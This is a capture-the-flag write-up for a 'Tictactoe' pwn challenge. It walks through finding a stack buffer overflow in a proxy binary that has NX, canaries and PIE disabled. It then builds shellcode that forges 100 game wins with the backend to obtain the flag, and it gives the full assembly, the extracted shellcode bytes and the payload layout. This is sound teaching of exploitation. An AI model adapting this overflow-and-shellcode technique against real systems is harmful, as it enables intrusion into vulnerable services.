

# Tictactoe (shellcode, proxy)

Notes:
- binary for proxy server given
- source code of python server given

## Enumeration
In this task we are given two files:

```console
$ ls
tictactoe server.py

$ file tictactoe
tictactoe: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=292bbd6ea3adfb92195a360d1af03ce2757879ba, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Before digging into reverse engineering, let's get some basic idea about how the game works by playing it. From the task description we know it is some kind of tictactoe game. Let's connect to the provided host and port.

```console
$ nc pwn-tictactoe.ctfz.one 8889
Welcome to tictactoe game! Please, enter your name: Ala
                                                                     
+---+---+---+    Session: ATuJ5lkz9qgmxinXMIun5JM2WOWHZn6f           
|   |   |   |                                                        
| X |   |   |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   |   |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 5
                                                                     
+---+---+---+    Session: ATuJ5lkz9qgmxinXMIun5JM2WOWHZn6f           
|   |   |   |                                                        
| X | X |   |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   | 0 |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 3
                                                                     
+---+---+---+    Session: ATuJ5lkz9qgmxinXMIun5JM2WOWHZn6f           
|   |   |   |                                                        
| X | X | 0 |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   | 0 |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
| X |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 4
                                                                     
+---+---+---+    Session: ATuJ5lkz9qgmxinXMIun5JM2WOWHZn6f           
|   |   |   |                                                        
| X | X | 0 |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
| 0 | 0 | X |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
| X |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 9
                                                                     
+---+---+---+    Session: ATuJ5lkz9qgmxinXMIun5JM2WOWHZn6f           
|   |   |   |                                                        
| X | X | 0 |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
| 0 | 0 | X |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
| X | X | 0 |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 


It's a lose (or draw may be), start over from first level
```

So the game asks a player to provide her/his name and then consecutively asks player for moves. The goal seems to be to own a computer 100 times. It seems impossible as computer starts the game, plays quite well and draws are marked as player loose. I've tried few times and havn't won even once.

Now let's understand the system architecture. As I've mentioned at the beginning we have two files: server.py and tictactoe. Which file did we connected to? I will spoiler a little bit and show you how the flow of first request looked like.



The tictactoe is a proxy server. Client cannot directly connect to server.py as he doesn't know the ip address of it and it is protected by firewall (or at least should, I havn't tried this attack vector).

Ok, so what's the goal? Should we pwn the tictactoe proxy server or server.py? It is obvious when we start reading the source code of server.py:

```python
if __name__ == '__main__':
    try:
        FLAG = os.environ.get('FLAG')
    except Exception as e:
        print('[-] Can\'t get flag: {}'.format(e))
        exit(0)
    start_server(HOST, PORT)
```

The flag is located in server.py ram. And as the game says the player has to win 100 games in order to get the flag:

```python
class TicTacToeServerHandler(socketserver.BaseRequestHandler):
    sessions = {}

    def handle(self):
        try:
            data = str(self.request.recv(1), 'ascii')
            if data[0] == REG_USER:
                self.process_reg_user()
            elif data[0] == SEND_STATE:
                self.process_state()
            elif data[0] == GET_FLAG:   
                self.process_flag()
        except Exception as e:
            print('[-] Error handling messages: {}'.format(e))

    def process_reg_user(self):
        [...]

    def process_flag(self):
        unpacker = struct.Struct('<32s')
        input_bytes = self.request.recv(32)
        session = unpacker.unpack(input_bytes)
        session = str(session[0], 'ascii')
        if session not in self.sessions:
            err = ERROR_SESS
            msg = "You trying to cheat on me!\n"
        elif self.sessions[session]['level'] < FLAG_COUNT: # check if user won 100 games
            err = ERROR_SESS
            msg = "You trying to cheat on me!\n"
        else:
            err = ERROR_NO
            msg = FLAG

        try:
            packer = struct.Struct('<i {}s'.format(len(msg)))
            values = (err, bytes(msg, 'ascii'))
            packed_data = packer.pack(*values)
            self.request.sendall(packed_data)
            print('[+] Sending flag info: {} {}'.format(binascii.hexlify(packed_data), values))
        except Exception as e:
            print('[-] Error sending flag response: {}'.format(e))

    def process_state(self):
        [...]

    def get_state_response(self, session, cmove, hmove):
        [...]

    def check_win(self, field):
        [...]

    def generate_session(self):
        [...]
```

So to get the flag a proxy server has to send GET_FLAG request to server.py. Then server.py will double check if the user really has won the game 100 times. One would ask why the server.py has to check the message from tictactoe server? This is similar strategy to online games where a server tracks only most secure information about player and the ones less important are kept inside client memory. The chances that the player exploits a client are way higher and so the server should not fully trust it.

Ok, so we know that perhaps we have to pwn tictactoc proxy server and then we have to trick the server into thinking that we won 100 games so it sends the flag to tictactoe which will forward it to us.

## Preparing environment
Let's then leave a server.py for now and let's look for vulnerabilities inside tictactoe application. The binary is quite large and so let's start with manual fuzzing. We want to see the tictactoe errors as well so let's prepare our environment.

Start the server.py in first tab:

```console
$ python3 server.py 
[+] Server started at 127.0.0.1:9998

```

Then start tictactoe in second tab:

```console
$ ./tictactoe
[-] Error resolving server hostname in send_reg_user()
$
```

And we immediately got an error. Let's investigate it using ltrace (which will display all library calls application performs)

```console
$ ltrace ./tictactoe
gethostbyname("task2-tictactoe-backend")                                                                                      = 0
puts("[-] Error resolving server hostn"...[-] Error resolving server hostname in send_reg_user()
)                                                                                   = 55
_exit(7 <no return ...>
+++ exited (status 7) +++
```

Nice :) The tictactoe needs to get an address of server.py. And it get's it from /etc/hosts file. So just add a new record to your etc/hosts:

```console
$ cat vim /etc/hosts
[...]
127.0.0.1 task2-tictactoe-backend
[...]
```

Let's try to run the app again:

```console
$ ./tictactoe
[+] TCP server started as 0.0.0.0:8889
```

Hurray! Now we can connect to our proxy with netcat just as we did before but instead of `pwn-tictactoe.ctfz.one` we specify `127.0.0.1` as host. We can observe the whole flow now, add debug information to server.py file or observe tictactoe server under gdb!

```console
$ nc 127.0.0.1 8889
Welcome to tictactoe game! Please, enter your name: Ala
                                                                     
+---+---+---+    Session: 13UELROHTOlckhdkn266yfhNRRSX620m           
|   |   |   |                                                        
| X |   |   |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   |   |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 
```

And in the server.py tab we can see that the tictactoe propagetad the name to server.py which assigned new session to user:

```console
$ python3 server.py 
[+] Server started at 127.0.0.1:9998
[+] Sending session info: b'01000000313355454c524f48544f6c636b68646b6e3236367966684e525253583632306d' (1, b'13UELROHTOlckhdkn266yfhNRRSX620m')
```

## Manual fuzzing
Now we can start fuzzing the tictactoe app! Let's start with providing invalid arguments as move:

```console
$ nc 127.0.0.1 8889
Welcome to tictactoe game! Please, enter your name: Ala

Please, enter only free cell number (1-9):0
                                                                     
+---+---+---+    Session: ovs64oZiQk1b5SGEEObBQ9N1xRhGKa1T           
|   |   |   |                                                        
| X |   |   |     Player: Ala                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   |   |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9): 0

Please, enter only free cell number (1-9):10

Please, enter only free cell number (1-9):0 

Please, enter only free cell number (1-9):0

Please, enter only free cell number (1-9):-1

Please, enter only free cell number (1-9):0
```

No crashes or output in tictactoe tab. This means that the game performs at least some checks for the moves. I've decided to move on and checked the second input which is username.

```console
$ nc 127.0.0.1 8889
Welcome to tictactoe game! Please, enter your name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaah
```

And the application hungs up! Let's check the tictactoe tab:

```console
$ ./tictactoe 
[+] TCP server started as 0.0.0.0:8889
Segmentation fault (core dumped)

$ dmesg | tail -1
[ 1295.699752] traps: tictactoe[3654] general protection ip:4016b3 sp:7fffffffdd78 error:0 in tictactoe[400000+5000]
```

We just found the most basic buffer overflow! Moreover we haven't seen  "__stack_ch_fail" alert, so the binary perhaps is not well protected.
We can confirm that by using checksec command:

```console
$ checksec tictactoe
[*] './tictactoe'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Even better then I could imagine! Not only there are no stack canaries but also the stack is executable and the binary hasn't been compiled as position independend executable!

## Inevestigating buffer overflow
There are so many protections disabled that the buffer overflow might be enought to fully compromise tictactoe application. Let's take a deeper look at the reconstructed part of code responsible for reading user name:

```c
// simplified!
int get_name(void)
{
  int iVar1;
  size_t hello_buf_len;
  char tmp_name [16];
  char hello_buff [53];
  int recv_session_count;
  int sent_count;
  
  hello_buff = "Welcome to tictactoe game! Please, enter your name: ";
  memset(tmp_name, 0x0, 16);
  hello_buf_len = strlen(hello_buff);
  iVar1 = send_all(psock,hello_buff,(int)hello_buf_len); // [1]
  if (iVar1 < 0) {
    close(psock);
    puts("[-] Error sending hello message in process_game()");
    iVar1 = -1;
  }
  else {
    iVar1 = recv_all(psock,tmp_name,0x800); // [2]
    if (iVar1 < 0) {
      close(psock);
      puts("[-] Error receiving name in process_game()");
      iVar1 = -1;
    }
    else {
      tmp_name[iVar1 + -1] = '\0';
      strcpy(name,tmp_name); // [3]
      iVar1 = 0;
    }
  }
  return iVar1;
}
```

Function get_name:
- [1] Sends welcome message to user. Notice that we can guess the signature of the send_all function: send_all(int sock, char *buf, size_t count), where count is number of bytes to send.
- [2] Reads name provided by user. Similar to send_all, recv_all signature is: int recv_all(int socket, char *buf, size_t count), where count is number of bytes to read. So in this case program reads up to 0x800 bytes into 16 bytes buffer. This is exactly the buffer overflow we found before!
- [3] The tmp_name buffer is copied to name, where name is a global variable.

## Exploit
At this point we can try to exploit a proxy server. We control not only return address but also huge stack part (the addresses underneath). If we had a libc address we would simply perform some ROP. Unfortunetely we havn't leaked anything yet and so are gadgets are limited to the ones found in the binary itself. Moreover the shell might not be enought (more about this later) so I decided I would like to make use of disabled NX protection (it marks stack, .bss, .data, etc. memory as not executable).

Let's confirm that with vmmap:

```GDB
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000405000 0x0000000000000000 r-x /home/k/cz/tictactoe_files/tictactoe
0x0000000000405000 0x0000000000406000 0x0000000000005000 rwx /home/k/cz/tictactoe_files/tictactoe
0x0000000000406000 0x0000000000427000 0x0000000000000000 rwx [heap]
0x00007ffff77d2000 0x00007ffff77dd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libnss_files-2.27.so
[...]
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rwx 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Can you see 'x' bit? When present it means that this memory region is executable. So if for example we find a way to jump to the `tmp_buf` which we control, we could place our malicious shellcode there and it will get executed. But the problem is that in all modern systems ASLR is enabled and we don't know the stack address. So we would need a gadget like: `push rsp; ret;`, but I couldn't find such in the binary.

So the next idea that popped into my mind was to jump to `name`. It is a global variable and as binary hasn't been compiled as position independent then we know the exact address of it. The only problem is that we cannot use NULL bytes as it is filled with [3] strncpy. Let's check if we are right and just place some nops and observe the execution flow:


`payload = b'\x90' * 88 + p64(e.symbols['name']) + b'\x90' * 100`

```GDB
$ gdb ./tictactoe
gef➤  b *0x4016b3 ; break at ret from get_name
gef➤  r
Breakpoint 2 at 0x4016b3
gef➤  x/1i $rip 
=> 0x4016b3 <get_name+298>:	ret
gef➤  x/8gx $rsp
x/8gx $rsp
0x7fffffffdd28:	0x0000000000405770	0x9090909090909090
0x7fffffffdd38:	0x9090909090909090	0x9090909090909090
0x7fffffffdd48:	0x9090909090909090	0x9090909090909090
0x7fffffffdd58:	0x9090909090909090	0x9090909090909090
gef➤  p &name
$1 = (char (*)[17]) 0x405770 <name>
gef➤  ni
gef➤  x/100i $rip
=> 0x405770 <name>:	nop
   0x405771 <name+1>:	nop
   [...]
   0x4057b7:	nop
   0x4057b8:	rex.WB add al,0x0
   0x4057bb:	add    BYTE PTR [rax],al
   0x4057bd:	add    BYTE PTR [rax],al
   0x4057bf:	add    BYTE PTR [rax],al
```

Nice as we do can execute instructions but can you notice that the part after return addres hasn't been copied into the `name` variable? This is because the address of `name` contains NULL byte. This means that we have only 88 bytes and cannot use any NULL bytes in our shellcode. It might be ok if we only need to spawn a shell, but as we have to trick server.py to give us a flag it might be not enought.

Remember the first idea to jump into the stack? We gave up because we couldn't find a right gadget. But now we can combine the two ideas and just use code in `name` buffer as our gadget.

`payload = b'\x54\xc3' + b' ' * 86 + p64(e.symbols['name']) + b'\x48\xb8\x3c...'`


## Shellcode
Ok this way we can create a shellcode of length 0x800 - 96 with null bytes allowed! Now the question is why duplicating file descriptors and then invoking execve("/bin/sh") is not enought to get a flag? Well in fact it is enought, but we still have to simulate a game as a main server does not fully trust tictactoe app (it keeps the number of levels user owned and current board state in ram and asks client only for computer & human moves). So our attack scenario would be to just send "bad" computer moves. And I personally find it easier to use already existing in tictactoe app functions for communicating with main server.

## Fake game
So we need to create a malicious shellcode which will communicate with main server on our behalf.
It must first get session by registering user. The app uses:

`int send_reg_user(char *server_ip,char *session)`

function to register user. Both server_ip and session are global variables and therefore we know their addresses. So this part of shellcode can look like:

```asm
SERVER_IP_ADDR          equ 0x405728
SESSION_ADDR            equ 0x405740

SEND_REQ_USER_FUNC_ADDR equ 0x402835 

section .text
    global _start

_start:
_register_user:
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rax, SEND_REQ_USER_FUNC_ADDR 
    call rax

```

To send moves, the tictactoe uses `int send_state(char *server_ip,char *session,int cmove,int hmove)` function which takes as arguments: server_ip, session and two int variables: cmove, hmove.
Then to spoof a game (consists of 3 computer and 3 human moves) we can write such code:

```asm
CMOVE1                  equ 0 
CMOVE2                  equ 3
CMOVE3                  equ 2
HMOVE1                  equ 1
HMOVE2                  equ 4
HMOVE3                  equ 7

SERVER_IP_ADDR          equ 0x405728
SESSION_ADDR            equ 0x405740

SEND_STATE_FUNC_ADDR    equ 0x402a74
SEND_REQ_USER_FUNC_ADDR equ 0x402835 

section .text
    global _start

_start:
_register_user:
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rax, SEND_REQ_USER_FUNC_ADDR 
    call rax

_win_game:
    ; cmove: 0 hmove: 1
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE1
    mov rcx, HMOVE1
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 3 hmove: 4
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE2
    mov rcx, HMOVE2
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 2 hmove: 7
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE3
    mov rcx, HMOVE3
    mov rax, SEND_STATE_FUNC_ADDR
    call rax
```

We have to win the game 100 times so let's wrap it with a loop. We will use $rbx register as it is callee-saved register and will not get modified by `send_state` function.

```asm
CMOVE1                  equ 0 
CMOVE2                  equ 3
CMOVE3                  equ 2
HMOVE1                  equ 1
HMOVE2                  equ 4
HMOVE3                  equ 7

SERVER_IP_ADDR          equ 0x405728
SESSION_ADDR            equ 0x405740

SEND_STATE_FUNC_ADDR    equ 0x402a74
SEND_REQ_USER_FUNC_ADDR equ 0x402835 

section .text
    global _start

_start:
_register_user:
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rax, SEND_REQ_USER_FUNC_ADDR 
    call rax

_start_game:
   xor rbx, rbx ; store act number of wins in rbx


_win_game:
    ; cmove: 0 hmove: 1
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE1
    mov rcx, HMOVE1
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 3 hmove: 4
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE2
    mov rcx, HMOVE2
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 2 hmove: 7
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE3
    mov rcx, HMOVE3
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    inc rbx
    cmp rbx, NWINS
    jne _win_game
```

Finally we have to ask server for a flag. It can be done by invoking `int send_get_flag(char *server_ip,char *session,char *message)` function. We already know the server_ip and session arguments. The message is just a buffer in which the flag get stored. 
To send flag back to us, we will use a write syscall (the socket is already open).
The final shellcode looks like:

```asm
SEND_REQ_USER_FUNC_ADDR equ 0x402835 
SEND_STATE_FUNC_ADDR    equ 0x402a74
SEND_GET_FLAG_FUNC_ADDR equ 0x402ce1

SERVER_IP_ADDR          equ 0x405728
SESSION_ADDR            equ 0x405740

FLAG_BUF_ADDR           equ 0x405870 ; &name + 256
FLAG_LEN                equ 0x102

CMOVE1                  equ 0 
CMOVE2                  equ 3
CMOVE3                  equ 2
HMOVE1                  equ 1
HMOVE2                  equ 4
HMOVE3                  equ 7

NWINS                   equ 100

PSOCK                   equ 4

SYS_WRITE               equ 1


section .text
    global _start

_start:
_register_user:
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rax, SEND_REQ_USER_FUNC_ADDR 
    call rax


_start_game:
   xor rbx, rbx ; store act number of wins in rbx


_win_game:
    ; cmove: 0 hmove: 1
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE1
    mov rcx, HMOVE1
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 3 hmove: 4
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE2
    mov rcx, HMOVE2
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    ; cmove: 2 hmove: 7
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, CMOVE3
    mov rcx, HMOVE3
    mov rax, SEND_STATE_FUNC_ADDR
    call rax

    inc rbx
    cmp rbx, NWINS
    jne _win_game


_get_flag:
    mov rdi, qword [SERVER_IP_ADDR]
    mov rsi, SESSION_ADDR
    mov rdx, FLAG_BUF_ADDR
    mov rax, SEND_GET_FLAG_FUNC_ADDR
    call rax


_send_flag:
    mov rdi, PSOCK
    mov rsi, FLAG_BUF_ADDR
    mov rdx, FLAG_LEN
    mov rax, SYS_WRITE
    syscall
```

We can now extract it:

```console
$ nasm -f elf64 1_shellcode.asm -o 1_shellcode.o

$ for i in `objdump -d 1_shellcode.o |grep "^ " |cut -f2`; do echo -n '\x'$i; done; echo
\x48\x8b\x3c\x25\x28\x57\x40\x00\xbe\x40\x57\x40\x00\xb8\x35\x28\x40\x00\xff\xd0\x48\x31\xdb\x48\x8b\x3c\x25\x28\x57\x40\x00\xbe\x40\x57\x40\x00\xba\x00\x00\x00\x00\xb9\x01\x00\x00\x00\xb8\x74\x2a\x40\x00\xff\xd0\x48\x8b\x3c\x25\x28\x57\x40\x00\xbe\x40\x57\x40\x00\xba\x03\x00\x00\x00\xb9\x04\x00\x00\x00\xb8\x74\x2a\x40\x00\xff\xd0\x48\x8b\x3c\x25\x28\x57\x40\x00\xbe\x40\x57\x40\x00\xba\x02\x00\x00\x00\xb9\x07\x00\x00\x00\xb8\x74\x2a\x40\x00\xff\xd0\x48\xff\xc3\x48\x83\xfb\x64\x75\x9d\x48\x8b\x3c\x25\x28\x57\x40\x00\xbe\x40\x57\x40\x00\xba\x70\x58\x40\x00\xb8\xe1\x2c\x40\x00\xff\xd0\xbf\x04\x00\x00\x00\xbe\x70\x58\x40\x00\xba\x02\x01\x00\x00\xb8\x01\x00\x00\x00\x0f\x05
```

And test our [exploit](exp.py)

```console
$ python3 exp.py remote
[*] '/home/k/cz/tictactoe_files/tictactoe'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn-tictactoe.ctfz.one on port 8889: Done
[*] Switching to interactive mode
ctfzone{h3r3_w3_g0_4g41n_t1c_t4c_t03_1z_4_n1z3_g4m3}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```